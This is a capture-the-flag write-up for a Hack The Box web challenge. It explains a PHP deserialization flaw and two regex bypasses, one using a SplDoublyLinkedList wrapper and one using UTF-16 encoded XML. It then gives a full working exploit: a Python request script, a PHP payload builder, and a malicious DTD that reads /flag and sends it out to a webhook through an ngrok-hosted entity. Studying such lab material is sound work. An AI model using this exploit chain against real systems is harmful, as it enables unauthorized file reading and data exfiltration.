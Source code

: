 # WAFfle-y Order
Category: Web  
Level: Medium

## Code Analysis
Checking out the `index.php` we find the `PHPSESSID` cookie is serialized:
```php index.php
if  ( empty ( $_COOKIE [ 'PHPSESSID' ])) 
{ 
    $user  =  new  UserModel; 
    $user ->username = substr(uniqid( 'guest_' ),  0 ,  10 ); 
    setcookie( 
        'PHPSESSID' , 
        base64_encode(serialize( $user )),  
        time()+ 60 * 60 * 24 ,  
        '/' 
    ); 
} 
```

In `OrderController.php` we find the deserialization:
```php OrderController.php
$body = file_get_contents( 'php://input' );   
$cookie = base64_decode( $_COOKIE [ 'PHPSESSID' ]);   
safe_object( $cookie );   
$user = unserialize( $cookie );
```

Before the deserialization the cookie is sanitized by `safe_object` method. It checks for unsafe functions starting with `__`:
```php OrderController.php
function  safe_object ( $serialized_data ) 
{ 
    $matches  = []; 
    $num_matches  = preg_match_all( '/(^|;)O:\d+:"([^"]+)"/' ,  $serialized_data ,  $matches ); 

    for  ( $i  =  0 ;  $i  <  $num_matches ;  $i ++) { 
        $methods  = get_class_methods( $matches [ 2 ][ $i ]); 
        foreach  ( $methods  as  $method ) { 
            if  (preg_match( '/^__.*$/' ,  $method ) !=  0 ) { 
                die ( "Unsafe method: ${method}" ); 
            } 
        } 
    } 
} 
```

Having found the deserialization vulnerability, the next step is to find classes that can be exploited by the deserialization vulnerability.

There is a `XmlParserModel` class and the `__wakeup` method, which is called when the object is deserialized:
```php XmlParserModel.php
class  XmlParserModel 
{ 
    private  string  $data ; 
    private  array  $env ; 

    public  function  __construct ( $data ) 
    { 
        $this ->data =  $data ; 
    } 

    public  function  __wakeup ( ) 
    { 
        if  (preg_match_all( "/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im" ,  $this ->data)) 
        { 
            die ( 'Unsafe XML' ); 
        } 
        $env  = @simplexml_load_string( $this ->data,  'SimpleXMLElement' , LIBXML_NOENT); 

        if  (! $env )  
        { 
            die ( 'Malformed XML' ); 
        } 

        foreach  ( $env  as  $key  =>  $value ) 
        { 
            $_ENV [ $key ] = ( string ) $value ; 
        } 
    } 
} 
```

In sum, exist a `__wakeup` method in `XmlParserModel` and object variable `$data` with `simplexml_load_string` is used as `XML` parsing. When deserializing, the vulnerability can give `$data` variables arbitrary values that can be created by external entities `XXE`.

However, when `$data` is including external entities, it will be replaced by the regular expression `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im` matches, resulting in the call `die` and return `Unsafe XML`.
For this, you can `UTF-8` encoded `XML` document converted to `UTF-16` coding

## METHODOLGY
When making the call, the server checks if the cookie is “safe” with `safe_object()`. The method finds all matches of serialized objects and gets their respective class methods. If any of the class method contains `__` at the beginning (for magic methods exploits), the program dies.

Decoded cookie, the ErrorException contains magic method __construct:
O:14:"ErrorException":1:{s:8:"username";s:10:"guest_614c";}

To bypass this restriction, I studied this writeup:
https://github.com/MegadodoPublications/exploits/blob/master/composr.md#the-moderately-cool-way-that-works

Objects that implement the Serializable interface contain two methods serialize and unserialize. 
When serializing such an object a string of the following format will be returned: 
```
C:<number of characters in the class name>:"<class name>":<length of the output of the serialize method>:{<output of the serialize method>}.
```

Creating a serialized string in this format for an object of a class that doesn’t implement Serializable will work but the deserialized object will not have any class members set. It is thus not very useful for our purposes but it does lead the way to a final working exploit.
```
C:19:“SplDoublyLinkedList”:33:{i:0;:O:10:“HelloWorld”:0:{}:i:42;}
```

Notice the `:` before `O`. This prevents the regex from matching.
Part of the payload is going to look like this. `$pay` is our serialized payload object.

### XML WAF bypass
We will serialize XmlParserModel class. It has `__wakeup` magic method, and calls `simplexml_load_string()` which we will exploit. 
With this method, we can do XXE, but have to first bypass the regex check.
The LIBXML_NOENT option allows us to use XML entities.

To bypass the regex, I use UTF-16 encoding on the XML payload. 
The `simplexml_load_string()` does whats its told to do, and the regex just don’t know what’s going on and lets the payload through.

### DTD OOB exfiltration
Free from restraints, we can finally do the XXE with OOB DTD (inspiration). The challenge is internet-enabled. I’m going to fetch the DTD from ngrok which I tunnel to my machine where I host the DTD file. The DTD reads the flag file and make a call to my internet webhook, where a GET parameter contains the flag.

## Exploit
Lets create 3 files.
In `exploit.py` we generate php serialized payload and encode using base64. URL encoding is done inplicitly in requests. Insert payload into cookie and make the API call.
```python exploit.py
#!/usr/bin/python3

import requests
import subprocess
import base64

result = subprocess.run(['php', 'php_pay.php'], stdout=subprocess.PIPE)
rs = result.stdout 
pay = base64.b64encode(rs)
pay = pay.decode()

c = {'PHPSESSID': pay}
d = {"table_num":"1","food":"WAFfles"}

r = requests.post('http://206.189.124.249:32543/api/order', json=d, cookies=c)
print(r.content.decode())
```

In `php_pay.php` we create and xml paylod that will be interpreted by simplexml_load_string(). We tell it to fetch our malicious DTD and execute it. Then we convert the xml into UTF-16BE, serialize it and paste it into our predefined serialized structure.
```php php_pay.php
<?php

class XmlParserModel {
    public string $data;

    public function __construct($data)
    {
        $this->data = $data;
    }
}

/* UTF-16 encoding
 * ngrok to malicious.dtd
 */
$xml = '<?xml version="1.0" encoding="UTF-16"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://1486-88-212-37-72.ngrok.io/malicious.dtd"> %xxe;]><env><debug>1</debug></env>';

// perform utf-16 conversion (big endian)
$xml = iconv('UTF-8', 'UTF-16BE', $xml);

$pay = serialize(new XmlParserModel($xml));

// 11 is number of chars in {} block apart from variable $pay
$l = 11 + strlen($pay);
echo 'C:19:"SplDoublyLinkedList":' . $l . ':{i:0;:' . $pay . ':i:42;}';
```

In `malicious.dtd` we tell the system to get contents of /flag and encode it using base64. We have to use base64 encoding because the file contains a newline at the end, and the xml entity doesn’t like that. We then instruct the system to make and http call to our webhook which contains the flag as a GET parameter.
```dtd malicious.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webhook.site/d1a3d99e-30da-4cb5-8e98-a4922d66f996/?x=%file;'>">
%eval;
%exfiltrate;
```

## FLAG
Now we just need to run `exploit.py` and get the flag in the webhook.
HTB{wh0_l3t_th3_enc0d1ngs_0ut???w00f..wo0f..w0of..WAFfl3s!!}
